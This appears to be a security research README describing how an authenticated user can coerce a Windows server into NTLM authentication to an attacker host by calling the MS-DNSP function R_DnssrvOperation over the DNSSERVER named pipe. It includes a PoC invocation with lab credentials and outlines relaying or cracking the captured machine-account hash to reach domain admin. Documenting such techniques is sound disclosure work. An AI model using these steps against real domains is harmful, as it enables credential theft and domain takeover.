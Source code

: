 # MS-DNSP - Remote call to R_DnssrvOperation (opnum 0)

## Summary

 - **Protocol**: [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a)

 - **Protocol UUID**: 50abc2a4-574d-40b3-9d66-ee4fd5fba076

 - **Protocol version**: 0.0

 - **SMB Named pipe**: `\PIPE\DNSSERVER`

 - **Function name**: [`R_DnssrvOperation`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/9500a7e8-165d-4b13-be86-0ddc43100eef)

 - **Function operation number**: `0`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\DNSSERVER` and bind to the desired [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol (with uuid `50abc2a4-574d-40b3-9d66-ee4fd5fba076` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\DNSSERVER` This pipe is connected to the protocol [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) and allows to call RPC functions of this protocol. We will then call the remote [`R_DnssrvOperation`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/9500a7e8-165d-4b13-be86-0ddc43100eef) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
R_DnssrvOperation('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
LONG R_DnssrvOperation(
   [in]                              handle_t                hBindingHandle,
   [in, unique, string]              LPCWSTR                 pwszServerName,
   [in, unique, string]              LPCSTR                  pszZone,
   [in]                              DWORD                   dwContext,
   [in, unique, string]              LPCSTR                  pszOperation,
   [in]                              DWORD                   dwTypeId,
   [in, switch_is(dwTypeId)]         DNSSRV_RPC_UNION        pData
 );
```

## References

 - Documentation of protocol [MS-DNSP]: Domain Name Service (DNS) Server Management Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a

 - Documentation of function `R_DnssrvOperation`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/9500a7e8-165d-4b13-be86-0ddc43100eef